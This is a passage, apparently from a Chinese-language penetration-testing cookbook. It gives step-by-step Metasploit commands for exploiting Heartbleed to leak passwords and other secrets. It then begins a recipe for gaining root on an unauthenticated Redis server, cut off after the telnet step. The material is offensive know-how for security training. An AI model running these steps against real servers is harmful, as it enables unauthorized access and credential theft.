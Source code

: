 以下屏幕截图显示了前面命令的输出：

![](assets/418bd92c-2e74-4825-840d-52fb69e3fa5f.png)

2.  然后，我们使用以下命令搜索 HeartBleed 辅助程序：

```
 search heartbleed
```

以下屏幕截图显示了前面命令的输出：

![](assets/139b4243-4ce8-4290-befb-6b0d03d70c76.png)

3.  接下来，我们使用以下命令使用辅助命令：

```
 use auxiliary/scanner/ssl/openssl_heartbleed
```

4.  然后使用以下命令查看选项：

```
 show options
```

以下屏幕截图显示了前面命令的输出：

![](assets/f7e03e17-9728-45c3-81b7-160c9ea9d3ff.png)

5.  现在，我们使用以下方法将 RHOSTS 设置为目标 IP：

```
 set RHOSTS x.x.x.x
```

6.  然后，我们使用以下命令将详细度设置为`true`：

```
 set verbose true
```

7.  然后我们输入`run`，我们现在应该在这里看到数据。此数据通常包含敏感信息，如密码、电子邮件 ID 等：

![](assets/0eb13fbb-7033-4103-a09c-193f517d8002.png)

# Redis 开发

有时在 pentesting 时，我们可能会遇到一个 Redis 安装，它在无意中被公之于众。在未经验证的 Redis 安装中，最简单的方法是编写随机文件。在这个配方中，我们将看到如何在没有身份验证的情况下获得运行的 Redis 安装的根访问权限。

# 怎么做。。。

要了解如何利用 Redis，请按照给定的步骤进行操作：

1.  我们首先将 telnet 连接到服务器，并检查是否可以成功连接：

```
 telnet x.x.x.x 6379
```
